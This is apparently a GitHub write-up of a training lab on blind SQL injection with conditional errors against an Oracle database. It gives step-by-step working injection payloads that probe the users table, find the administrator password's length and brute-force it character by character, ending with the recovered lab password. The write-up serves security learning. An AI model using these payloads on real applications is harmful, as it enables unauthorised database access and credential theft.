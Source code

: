 # Lab: Blind SQL injection with conditional errors #

# Lab Description #

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/7ef70fef-b9ab-4265-ac0e-a83f5c8b14f1)

> We have intercepted the request

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/8aa85057-4dc4-4d2e-998e-37c99bee42bb)

> We can manipulate the request

We can see check using `'||(SELECT '' FROM dual)||'` check whether it's using orcale or not

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/7d4aa820-0e75-4e5e-93d3-3fb0f08d9a8a)

> We can use `'||(SELECT '' FROM users WHERE ROWNUM = 1)||'` check whether

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/1615a6d5-bec8-4872-b165-8454fc0ca0e8)

> We can see there is single row

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/32c7f027-e624-4653-94ef-725b3f598135)

> We can it giving error there username administrator is present

> We can use this payload check whether `'||(SELECT CASE WHEN LENGTH(password)>1 THEN to_char(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
  whether password length is greater than 1

 ![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/4fc037ad-4977-488a-901c-441e8df1901f)

> We can see that password length is 20

> We can use this payload to check `'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
  we can get first letter of the password.

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/be866901-a121-43aa-a111-bb1a96b57130)

> We got first letter of the password by bruteforce `h`

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/da34e030-2742-4a31-907b-c5a46d6e0754)

> So we can now bruteforce get the password

![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/443c61d4-7c52-485e-a5cc-d9f218ec547c)

>  We got password `hjnkvchejaml9or5g16e`

  ![image](https://github.com/anandurdas11/Web_Securityy/assets/83402050/ddf48bca-1c83-4b93-af66-f85d73198697)
